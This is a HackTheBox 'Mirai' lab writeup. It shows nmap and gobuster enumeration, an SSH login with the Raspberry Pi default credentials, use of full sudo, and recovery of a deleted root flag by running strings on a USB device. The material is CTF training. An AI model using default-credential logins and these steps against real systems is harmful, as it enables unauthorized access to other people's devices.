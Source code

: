 ```yaml
---
layout: post
title: HackTheBox Mirai (10.10.10.48) Writeup
description: >
  Hackthebox Mirai Writeup
image: /assets/img/mirai.png
---
```


First we start with an nmap scan.

```
# nmap -sC -sV -T4 -p- 10.10.10.48
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-17 20:17 EDT
Nmap scan report for 10.10.10.48
Host is up (0.056s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1315/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-title: Unauthorized
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.24 seconds
```
So there are a few ports open but we want port 80. Initially when you navigate to <b>http://10.10.10.48</b> you get nothing but a blank screen. Seeing this, I decided to run a gobuster
```
# gobuster dir -u http://10.10.10.48 -w /usr/share/wordlists/d
irbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.48
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php
[+] Timeout:        10s
===============================================================
2019/09/17 20:25:10 Starting gobuster
===============================================================
/admin (Status: 301)
```
Only found one directory. If you go to that page you will be greated with the Pi-Hole Admin Console. This is basically an Ad Blocker running on a Raspberry Pi

![dashboard.png](../../resources/a33a172a9d7f42a7acee5da238d2ba54.png)

I didn't find much more on the webpage. Now my next idea was to try SSH. I no knew that is was running Raspian which has default credentials of user <b>pi</b> pass <b>raspberry</b>.

```
# ssh pi@10.10.10.48
pi@10.10.10.48's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 18 00:37:37 2019 from 10.10.14.21

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $
```
And we are in. We can grab the user flag now located at <b>/home/pi/Desktop</b>
```
pi@raspberrypi:~ $ ls Desktop/
Plex  user.txt
```
Now for root. If we run <b>sudo -l</b> we can see that we have full sudo privileges. Problem is when we try to read the root flag we get this message
```
pi@raspberrypi:~ $ sudo cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```
Looks like we are not done just yet. So the message hints at a USB. If you run <b>lsblk</b> you will see that there is a usb mount at <b>/media/usbstick</b>
```
# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
```
If you <b>cd</b> in to directory you will see a <b>damnit.txt</b> file. If you read that you will get another message that the root flag was accidentally deleted.
```
# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```
The message basically tells us that the root flag is still on the USB just hidden. To find the root flag just use the <b>strings</b> command against <b>/dev/sdb</b> since thats the actual USB
```
# sudo strings /dev/sdb
<output omitted>
root.txt
damnit.txt
>r &
3d3e483143ff12e**************
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
<br><br><br>
